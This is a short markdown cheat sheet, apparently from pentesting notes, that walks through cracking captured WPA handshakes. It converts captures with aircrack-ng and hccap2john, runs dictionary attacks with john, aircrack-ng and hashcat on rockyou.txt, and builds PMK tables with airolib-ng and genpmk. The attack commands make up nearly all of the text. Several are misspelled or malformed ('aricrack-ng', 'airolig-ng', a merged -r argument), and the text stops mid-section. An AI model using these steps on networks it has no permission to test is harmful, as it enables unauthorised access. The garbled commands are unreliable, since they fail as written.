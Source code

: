 ### Hash extraction

First we need to save our handshaek in HCCAP to after use `hccap2john` and crack it.

```
aircrack-ng -J capture Capture-01.cap   # For john
hccap2john capture.hccap > handshake.hash 


aricrack-ng -j capture Capture-01.cap   # For hashcat
```

### Cracking the hanshake

#### Dictionary Attack

```
john --wordlist=/usr/share/wordlist/rockyou.txt handshake.hash --format=wpapsk
john --show --format=wpapsk handshake.hash

aircrack-ng -w /usr/share/wordlist/rockyou.txt Capture-01.cap

hashcat -m 2500 -d 1 capture.hccapx /usr/share/wordlists/rockyou.txt --force -w 3
hashcat --show -m 2500 capture.hccapx
```

#### Rainbow Table

**Airolib + Aircrack**

With `airolib` we can create a dictionary with PMKS.

```
airolig-ng passwords-airolib --import passwd /usr/share/wordlists/rockyou.txt
echo "<ESSID>" > essid.lst
airolib-ng passwords-airolib --import essid essid.lst

airolib-ng passwords-airolib --stats   #Test if all is working correctly

airolib-ng passwords-airolib --clean all  #Clean the wordlists to ileggible characters

airolib-ng passwords-airolib --batch  #Create the wordlists
```

Onced created we just need to use aircrack

```
aircrack-ng -r passwords-airolib_Capture-01.cap
```

We can see that the speed of cracking of `aircrack-ng` goes from 10k/s up to 200k/s.

**Genpmk + (Cowpatty or Pyrit)**

First we need to create a new dictionary.

```
genpmk -f /usr/share/wordlists/rockyou.txt -d dic.genpmk -s <SSID>
```
